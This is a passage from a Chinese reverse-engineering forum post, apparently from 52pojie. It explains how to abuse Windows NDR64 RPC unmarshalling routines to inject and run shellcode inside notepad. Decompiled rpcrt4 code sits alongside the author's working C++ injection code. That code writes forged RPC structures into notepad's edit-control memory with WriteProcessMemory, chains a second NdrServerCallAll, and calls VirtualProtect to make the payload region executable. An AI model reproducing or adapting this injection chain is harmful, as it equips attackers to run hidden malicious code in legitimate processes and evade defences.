

## 传参问题

新的问题已经到来，我们怎么传参？

`Ndr64pServerUnMarshal`

参数传递是由`Ndr64pServerUnMarshal()`完成的。这块逻辑也很复杂：


```c
v7 = 4096;
    do
    {
      v8 = (unsigned __int8 **)(v6 + 16i64 * v5);
      v9 = *((_WORD *)v8 + 4);
      if ( (v9 & 0xC) == 8 )
      {
        v10 = (_QWORD *)(*((_QWORD *)pContext + 6) + *((unsigned int *)v8 + 3));
        if ( (v9 & 0x800) != 0 )
        {
          v39 = (unsigned __int8 *)((unsigned __int64)(a1->Buffer + 7) & 0xFFFFFFFFFFFFFFF8ui64);
          a1->Buffer = v39;
          *v10 = *(_QWORD *)v39 != 0i64;
          a1->Buffer += 8;
          if ( a1->Buffer > a1->BufferEnd )
            goto LABEL_70;
        }
        else
        {
          v53 = (_QWORD *)(*((_QWORD *)pContext + 6) + *((unsigned int *)v8 + 3));
          if ( (v9 & 0x40) != 0 )
          {
            v24 = **v8;
            if ( (v9 & 0x100) != 0 )
            {
              v27 = **v8;                       // [url=https://github.com/ufwt/windows-]https://github.com/ufwt/windows-[/url] ... 64/srvcall.cxx#L685
              v28 = (unsigned __int8 *)(-(__int64)*((unsigned __int8 *)&Ndr64SimpleTypeBufferSize + v24) & (__int64)&a1->Buffer[*((unsigned __int8 *)&Ndr64SimpleTypeBufferSize + v24) - 1]);
              a1->Buffer = v28;
              *v10 = v28;
              a1->Buffer += *((unsigned __int8 *)&Ndr64SimpleTypeBufferSize + v27);
            }
            else if ( (_DWORD)v24 == 5 )        // IsBasetype
            {
LABEL_24:
              v25 = (unsigned __int8 *)((unsigned __int64)(a1->Buffer + 3) & 0xFFFFFFFFFFFFFFFCui64);
              a1->Buffer = v25;
              if ( v25 + 4 > a1->BufferEnd || v25 + 4 Buffer += 4;
            }
            else
            {
              switch ( **v8 )
              {
                case 1u:
                case 2u:
                case 0x10u:
                  Buffer = a1->Buffer;
                  v31 = Buffer + 1;
                  if ( Buffer + 1 > a1->BufferEnd || v31 Buffer = v31;
                  *(_BYTE *)v10 = v32;
                  break;
                case 3u:
                case 4u:
                case 0x11u:
                  v26 = (unsigned __int8 *)((unsigned __int64)(a1->Buffer + 1) & 0xFFFFFFFFFFFFFFFEui64);
                  a1->Buffer = v26;
                  if ( v26 + 2 > a1->BufferEnd || v26 + 2 Buffer += 2;
                  break;
                case 6u:
                case 0xBu:
                case 0x13u:
                  goto LABEL_24;
                case 7u:
                case 8u:
                case 0xCu:
                  v29 = (unsigned __int8 *)((unsigned __int64)(a1->Buffer + 7) & 0xFFFFFFFFFFFFFFF8ui64);
                  a1->Buffer = v29;
                  if ( v29 + 8 > a1->BufferEnd || v29 + 8 Buffer += 8;
                  break;
                case 0x12u:
                  break;
                default:
                  RpcRaiseException(1766);
              }
            }
            if ( a1->Buffer > a1->BufferEnd )
              goto LABEL_70;
          }
```

结合XP的代码,简单来说:

循环`pcontext`的参数

```cpp
        for ( ulong n = 0; n NumberParams; n++ )
            {
            NDR64_PARAM_FLAGS   *pParamFlags = 
                ( NDR64_PARAM_FLAGS * ) & ( Params[n].Attributes );
            if ( ! pParamFlags->IsIn  ||
                 pParamFlags->IsPipe )
                continue;
```

如果`flag`是`isin`则不会赋值,所以我们之前不能设置`isin`。

然后读参数的stack位置。这个参数的拷贝是从我们给的`rpcmessage->buffer`里面拿的：



25.png (89.61 KB, 下载次数: 4)

[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1M3w1ZDY1OWQ0ZXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:55 上传

读的位置也是我们给的参数属性的`stackoffset`：

```asm
   uchar *pArg = pContext->StartofStack + Params[n].StackOffset;
```

这个也是我们指定的：



26.png (20.32 KB, 下载次数: 4)

[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1NHxjNzg4MThjNHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:55 上传

然后判断参数`flag`里面是`simpleref`还是拷贝，如果是`IsSimpleRef`，则直接把指针指过去

如果是拷贝，则读`type`：

```c
if ( pParamFlags->IsSimpleRef )
                {
                ALIGN( pStubMsg->Buffer, NDR64_SIMPLE_TYPE_BUFALIGN( type ) );

                *((uchar **)pArg) = pStubMsg->Buffer;

                pStubMsg->Buffer += NDR64_SIMPLE_TYPE_BUFSIZE( type );
                }
            else
                {
                Ndr64SimpleTypeUnmarshall(
                    pStubMsg,
                    pArg,
                    type );
                }
```

`Ndr64SimpleTypeUnmarshall`是XP的说法，我的系统已经内链上去了



27.png (47.53 KB, 下载次数: 4)

[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1NXw4MTcyMWVjZnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:56 上传

这一段里面的`v8`就是那个`type`，`type`是一个指针。里面是内容。有个所谓的大小，这个大小XP代码不对，我自己看IDA逆向的：

```asm
/*

.rdata:00007FFF3A2784E0 ?Ndr64SimpleTypeBufferSize@@3QBEB db 0  ; DATA XREF:

Ndr64ComplexStructBufferSize(_MIDL_STUB_MESSAGE *,uchar *,void const

*)+31B↑o .rdata:00007FFF3A2784E0                                         ;

Ndr64UnionBufferSize(_MIDL_STUB_MESSAGE *,uchar *,void const *)+B8↑o ...

.rdata:00007FFF3A2784E1 db    1

.rdata:00007FFF3A2784E2 db    1

.rdata:00007FFF3A2784E3 db    2

.rdata:00007FFF3A2784E4 db    2

.rdata:00007FFF3A2784E5 db    4

.rdata:00007FFF3A2784E6 db    4

.rdata:00007FFF3A2784E7 db    8

.rdata:00007FFF3A2784E8 db    8

*/

enum class _Ndr64SimpleTypeBUfferSizeMap {

    kChar = 0,

    kShort = 2,

    kint32 = 4,

    kint64 = 6

};
```

本来我想用`simpleref`的，但是发现一个问题，`cls`的地址是`readonly`的，没办法赋值赋值会报错。所以我们只能走这里

```c
else if ( (_DWORD)v24 == 5 )        // IsBasetype
            {
LABEL_24:
              v25 = (unsigned __int8 *)((unsigned __int64)(a1->Buffer + 3) & 0xFFFFFFFFFFFFFFFCui64);
              a1->Buffer = v25;
              if ( v25 + 4 > a1->BufferEnd || v25 + 4 Buffer += 4;
            }
```

**他这里的逻辑跟XP的是不一样的，简单来说，他如果`flag`是`isbaseTYPE`，就会复制四个字节为一个参数。**

其实走上面的也可以，不过我都写完了

```c
 if ( (v9 & 0x100) != 0 )
            {
              v27 = **v8;                       // [url=https://github.com/ufwt/windows-]https://github.com/ufwt/windows-[/url] ... 64/srvcall.cxx#L685
              v28 = (unsigned __int8 *)(-(__int64)*((unsigned __int8 *)&Ndr64SimpleTypeBufferSize + v24) & (__int64)&a1->Buffer[*((unsigned __int8 *)&Ndr64SimpleTypeBufferSize + v24) - 1]);
              a1->Buffer = v28;
              *v10 = v28;
              a1->Buffer += *((unsigned __int8 *)&Ndr64SimpleTypeBufferSize + v27);
            }
```

我们就这样初始化`type`：

[Asm] 纯文本查看 复制代码


``` 
 for (auto ndr64Param : theParamTypeAddress) {
        auto typeAddress = tmpShellcode + calcOffset;
        ndr64Param->Type = (void*)REMOTE_CLS_ADDRESS(typeAddress);
        calcOffset += sizeof(void*);

        *(char*)(typeAddress) = (char)_Ndr64SimpleTypeBUfferSizeMap::kint64;
        calcOffset += sizeof(char);
    }
```

他的赋值是从`rpcmessagebuffer`赋值的,也是我们可控的。这样我们就完全可控参数的传递了。

## 第二次`NdrServerCallAll`

在`qax`的报告里面说call了第二次`NDRserverCallALL`,不过没解释为什么



28.png (265.41 KB, 下载次数: 4)  
2024-11-9 04:57 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1Nnw4MTM4YmNkMnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

> `PRPC_MESSAGE_A`中`DispatchTable`的地址还是`NdrServerCallAll`，至此形成套娃，会第二次进入`NdrServerCallAll`，此时的参数为`PRPC_MESSAGE_B`，而`PRPC_MESSAGE_B`的`DispatchTable`函数为`VirtualProtect`，将共享内存块中`shellcodeB`的内存属性改为可读可写可执行。

因为什么,因为很明显,第二个shellcode是在notepad的编辑框里面,而不是在`cls`里面.`cls`的内存属性是readonly的,`virtualprotect`第四个参数要求可写, 在`cls`内存里面call `virtualprotect`一定会失败.此外



29.png (42.53 KB, 下载次数: 4)  
2024-11-9 04:57 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1N3wzNDYzMGY3ZnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

在执行`servercall`完毕后会给readonly的内存赋值,赋值会直接炸.所以不能直接用`virtualprotect`以及执行shellcode在这个地方。(还没执行shellcode自己就没了)

而第二个shellcode在的位置是编辑框,那里的内存是可写可执行的

此外为什么不能改`cls`的内存,因为`cls`的内存是mapped属性,`virtualprotect`是改不了的



30.png (648.18 KB, 下载次数: 4)  
2024-11-9 04:57 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1OHw1MDk5NTA5MHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

可以看到:



31.png (206.51 KB, 下载次数: 4)  
2024-11-9 04:57 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA1OXxmZDhjMjBmOXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

因此就需要第二个shellcode,负责call `virtualprotect`,然后执行shellcode

第二个shellcode结构体一模一样,只是位置在编辑框里面

``` 
 // ***这里有个限制 除非我是英文系统 否则会被格式为Utf-8导致不能用**

    // 我直接writememory让那个地方看起来像是英文系统

    auto emh = (PVOID)SendMessage(hwndEdit, EM_GETHANDLE, 0, 0);

    PVOID embuf;

    SIZE_T numOfWrite;

    ReadProcessMemory(pi.hProcess, emh, &embuf, sizeof(ULONG_PTR), &numOfWrite);

    WriteProcessMemory(pi.hProcess, embuf, &TheNotepadTagClsAddress, 8,

                       &numOfWrite);

    //WriteProcessMemory(pi.hProcess, (char*)((uint64_t)embuf + 8), payload,

    //                   sizeof(payload), &numOfWrite);

    const auto shellcodeAddress = (uint64_t)embuf + 8;

    const auto virtualProtectReturnValue = shellcodeAddress;

    const auto editShellcodeLocation = shellcodeAddress + sizeof(uint64_t);
```

这里通过设置第一个shellcode的参数和地址，就能让第一个shellcode call `ndrservercall`反序化第二个参数:

``` 
 const auto virtualProtectParamSize = 8 * 2;
    for (size_t i = 0; i Buffer = (void*)REMOTE_CLS_ADDRESS(paramsBuffer);
    RpcMsg0->BufferLength = virtualProtectParamSize;  // virtualprotect的参数
    calcOffset += RpcMsg0->BufferLength;

    // Make HandleType to 0
    ProcStr0->Flags = 1;
    ProcStr0->StackSize = virtualProtectParamSize;
    ProcStr0->NumberOfParams = RpcMsg0->BufferLength / 4;

      auto tempCover = (uint64_t)editShellcodeLocation;
    memcpy(paramsBuffer, &tempCover, 8);
```

然后我们第二个shellcode初始化方法跟第一个完全一样,只是需要填参数:

``` 
std::vector theParamTypeAddress;

    // type的指针,这个type会读两次 **typeaddr

    auto fnSetNdr64Param = [&]() {

        static auto currentCopyCount = 0;

        auto ndr64Param = (_NDR64_PARAM_FORMAT*)(tmpShellcode + calcOffset);

        ndr64Param->Attributes.IsIn = true;

        ndr64Param->Attributes.IsBasetype = true;

        // auto typeAddress = tmpShellcode + calcOffset;

        // theParamTypeAddress.push_back(typeAddress);

        // ndr64Param->Type = (void*)REMOTE_CLS_ADDRESS(typeAddress);

        ndr64Param->StackOffset = currentCopyCount * 4;

        currentCopyCount += 1;

        // 这个没用,因为不走IsSimpleRef,simpleref那段内存是read only没办法赋值

        // [url=https://github.com/ufwt/windows-]https://github.com/ufwt/windows-[/url] ... cxx#L694C31-L694C43

        //*(char*)(typeAddress) = (char)_Ndr64SimpleTypeBUfferSizeMap::kint64;

        // calcOffset += sizeof(_NDR64_PARAM_FORMAT);

        theParamTypeAddress.push_back(ndr64Param);

        calcOffset += sizeof(_NDR64_PARAM_FORMAT);

    };

    const auto virtualProtectParamSize = 8 * 4;

    for (size_t i = 0; i Buffer = (void*)REMOTE_EDIT_ADDRESS(paramsBuffer);

    RpcMsg0->BufferLength = virtualProtectParamSize;  // virtualprotect的参数

    calcOffset += RpcMsg0->BufferLength;

    // Make HandleType to 0

    ProcStr0->Flags = 1;

    ProcStr0->StackSize = virtualProtectParamSize;

    ProcStr0->NumberOfParams = RpcMsg0->BufferLength / 4;

    auto tempCover = (uint64_t)shellCodeChangeAddress;

    memcpy(paramsBuffer, &tempCover, 8);

    tempCover = (uint64_t)sizeof(payload);

    memcpy(paramsBuffer + 8, &tempCover, 8);

    tempCover = (uint64_t)PAGE_EXECUTE_READWRITE;

    memcpy(paramsBuffer + 8 + 8, &tempCover, 8);

    memcpy(paramsBuffer + 8 + 8 + 8, &virtualProtectReturnValue, 8);

    calcOffset += sizeof(uint64_t);

    for (auto ndr64Param : theParamTypeAddress) {

        auto typeAddress = tmpShellcode + calcOffset;

        ndr64Param->Type = (void*)REMOTE_EDIT_ADDRESS(typeAddress);

        calcOffset += sizeof(void*);

        *(char*)(typeAddress) = (char)_Ndr64SimpleTypeBUfferSizeMap::kint64;

        calcOffset += sizeof(char);

    }
```

结果:



32.png (129.35 KB, 下载次数: 4)  
2024-11-9 04:58 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2MHw5YmQ3MWNjN3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

## 执行payload

俄罗斯bro的方法是用`Ndr64pFreeParams`执行的



33.png (103 KB, 下载次数: 3)  
2024-11-9 04:58 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2MXxmOGE2NjRmM3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

因为在执行`Ndr64pFreeParams`的时候,会call `StubDesc0->pfnFree`:



34.png (119.63 KB, 下载次数: 4)  
2024-11-9 04:58 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2MnwxZmJmN2E3MnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

这很好,但是太复杂了.因为还有非常多的检查需要处理.其实有个更简单的办法,在我系统上,有个`I_RpcGetBufferWithObject`:



35.png (79.74 KB, 下载次数: 2)  
2024-11-9 04:58 上传  
[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2M3wzNjMyYmYyZXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

这个在`free`之前

经过一些简单判断之后:

